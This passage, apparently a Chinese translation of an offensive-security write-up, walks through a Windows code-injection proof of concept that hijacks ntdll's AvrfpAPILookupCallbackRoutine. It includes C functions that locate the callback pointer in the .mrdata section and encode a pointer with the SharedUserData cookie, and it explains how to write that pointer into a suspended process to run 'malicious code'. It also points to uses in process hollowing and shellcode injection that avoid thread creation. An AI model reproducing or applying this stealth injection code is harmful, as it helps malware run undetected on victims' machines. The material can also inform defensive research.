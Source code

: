 这两个变量似乎总是相距正好 8 个字节，并且顺序相同。在初始化的进程中，布局应如下所示：

offset+0x00 - ntdll!LdrpMrdataBase（设置为 .mrdata 部分的基址）

offset+0x08 - ntdll!LdrpKnownDllDirectoryHandle（设置为非零值）

offset+0x10 - ntdll!AvrfpAPILookupCallbacksEnabled（设置为零）

offset+0x18 - ntdll!AvrfpAPILookupCallbackRoutine（设置为零）

我们可以在自己的进程中扫描 .mrdata 部分，以查找包含该部分基址的指针，然后之后的第一个 NULL 值将是 AvrfpAPILookupCallbackRoutine。

```plain
ULONG_PTR find_avrfp_address(ULONG_PTR mrdata_base) {
    ULONG_PTR address_ptr = mrdata_base + 0x280;  //the pointer we want is 0x280+ bytes in
    ULONG_PTR ldrp_mrdata_base = NULL;

    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == mrdata_base) {
            ldrp_mrdata_base = address_ptr;
            break;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }

    address_ptr = ldrp_mrdata_base;

    // AvrfpAPILookupCallbackRoutine should be the first NULL pointer after LdrpMrdataBase
    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == NULL) {
            return address_ptr;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }
    return NULL;
}
```

## 第 2 步：设置回调以调用我们的恶意代码

设置回调的最简单方法是在挂起状态下启动我们自己的进程的第二个副本。由于 ntdll 在每个进程中都位于相同的地址，因此我们只需要在自己的进程中找到回调指针即可。一旦我们的进程启动但处于挂起状态，我们就可以使用 WriteProcessMemory() 来设置指针。

我们还可以将这种技术用于进程空心化、shellcode 注入等，因为它允许我们在不创建或劫持线程或排队 APC 的情况下执行代码。但对于这个 PoC，我们将保持简单。

注意：由于许多 NTDLL 指针都是加密的，因此我们不能只设置指向目标地址的指针。我们必须先加密它。幸运的是，密钥是相同的值，并且存储在所有进程中的同一位置。

```plain
LPVOID encode_system_ptr(LPVOID ptr) {
    // get pointer cookie from SharedUserData!Cookie (0x330)
    ULONG cookie = *(ULONG*)0x7FFE0330;

    // encrypt our pointer so it'll work when written to ntdll
    return (LPVOID)_rotr64(cookie ^ (ULONGLONG)ptr, cookie & 0x3F);
}
```

